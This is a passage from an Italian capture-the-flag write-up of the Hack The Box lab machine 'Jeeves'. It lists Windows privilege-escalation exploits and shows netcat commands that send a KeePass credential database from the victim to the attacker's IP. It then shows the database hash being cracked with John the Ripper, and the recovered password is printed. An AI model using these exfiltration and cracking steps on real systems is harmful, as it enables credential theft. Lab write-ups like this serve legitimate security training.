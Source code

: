 ```text
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*]
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
```

Provo a sfruttare qualche vulnerabilità ma senza successo.

Tra i documenti dell'utente trovo questo:

<p align="center">
  <img src="/Immagini/Windows-Box/Jeeves/jeeves-7.png"/>
</p>

Per trasferire il file utilizzo netcat:

```text
nc -lp 9191 > jeeves.kdbx
```

```text
nc.exe -w 3 10.10.14.7 9191 < C:\Users\kohsuke\Documents\CEH.kdbx
```

Estraggo l'hash tramite _keepass2hohn_ e poi su questo uso _johntheripper_. Una volta ottenuta la password (_moonshine1_) accedo al database:

<p align="center">
  <img src="/Immagini/Windows-Box/Jeeves/jeeves-8.png"/>